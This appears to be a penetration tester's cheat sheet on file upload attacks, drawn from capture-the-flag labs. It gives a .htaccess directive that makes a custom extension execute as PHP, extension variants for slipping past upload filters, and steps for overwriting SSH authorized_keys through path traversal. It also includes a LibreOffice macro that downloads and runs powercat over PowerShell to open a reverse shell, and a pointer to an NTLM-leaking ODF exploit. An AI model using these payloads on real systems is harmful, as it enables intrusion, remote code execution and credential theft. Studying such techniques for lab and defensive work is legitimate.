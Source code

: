 #### HTACCESS BYPASS

```
#Upload a custom .htaccess file. (https://br4ind3ad.medium.com/port-swigger-file-upload-vulnerability-lab-4-4c2bf39eeaf)
#This means all files with the extension evil with execute as PHP.
AddType application/x-httpd-php .evil
```

### Extension 

```
#Modify the original extension
eg. phps, pHp, php7, phtml.
```


### Over Writing
![[Pasted image 20231205204847.png]]

The response shows the ../../ indicating we may be able to overwrite files.

Create a SSH key and authroized_keys file.

![[Pasted image 20231205205001.png]]

Select your file and edit the path to overwrite a folder.

![[Pasted image 20231205205011.png]]


### ODT

```
Reference: https://al1z4deh.medium.com/proving-grounds-craft-c92de878e004 OR https://documentation.libreoffice.org/assets/Uploads/Documentation/en/GS5.1/HTML/GS5113-GettingStartedWithMacros.html#__RefHeading__5150_1196992793

#Steps In LibreOffice
1. Create new document.
2. Add macro: Tools -> Macros -> Organise Macros -> Basic
3. Edit new Macro.

REM  ***** BASIC *****

Sub Main
	Shell("cmd /c powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"")
End Sub

4. Might pay to just do a curl first to test the code execution is working.

```


```
#Generates ODF file which can be used to leak NTLM credentials.
https://www.exploit-db.com/exploits/44564
```